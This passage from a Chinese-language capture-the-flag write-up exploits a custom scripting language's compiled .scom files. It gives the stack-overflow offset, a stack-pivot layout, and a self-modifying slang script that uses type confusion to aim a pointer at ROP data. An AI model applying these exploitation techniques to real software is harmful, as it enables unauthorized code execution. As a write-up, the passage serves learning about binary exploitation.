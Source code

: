 编译出来的到`overflow.scom`,  修改对应`a`的个数，调试确定溢出的长度。

栈溢出 栈迁移的打法: `'a' * 0x14c + fake_stack`, 

### scom文件自修改

#### 栈迁移地址

那么栈迁移的fake_stack地址从哪里来呢，程序内的输入其实不太好包含带有00的地址，于是我想到了这个位置, 

载入scom文件时，对于字符串处理，直接按照长度读取出来，

```c
// file/scom.c : load_scom
	for(i=0; i<string_count; i++){
        scom(&(len), 4);
        item = malloc(len);
        scom(item, len);
        item[len] = 0;
        vector_push_back(&(lambda->string), item);
    }
```

于是我有个这样的思路， 

在第二次`-r -d`的运行时，`-r`的一次运行进行自我修改，将opcode修改为栈溢出的那个dome的样子，然后开始写入填充的'a', 最后配合`gift`的类型混淆可以偏移指针指向我们设置好的rop位置，

大概的slang逻辑如下，编译出来以后修改headerb为前面编译出来的`overflow.scom`的文件头和opcode，

```
gift headerb is "2222222222222222222222222222222222222222";
# headerb -> push 1; pop $name(overflow)#
gift pad is "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
# 'a' * 0x80 #
gift rop is "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
# rop 'b' * 0x100#

# set overflow to rop#
reindeer Dancer delivering gift fileb oflag mode brings back gift fdb;
#fdb = open(filename, oflag, mode)#
gift size is 36;
reindeer Rudolph delivering gift fdb headerb size;
#write(fdb, headerb, size)#

gift size is 128;
reindeer Rudolph delivering gift fdb pad size;
reindeer Rudolph delivering gift fdb pad size;
gift size is 64;
reindeer Rudolph delivering gift fdb pad size;
gift size is 12;
reindeer Rudolph delivering gift fdb pad size;
# write(fdb, pad, 0x14c)#

gift size is 8;
gift ptr is ptr - 56;
# ptr = &rop#
reindeer Rudolph delivering gift fdb ptr size;
# write(fdb, ptr, 8)#
```
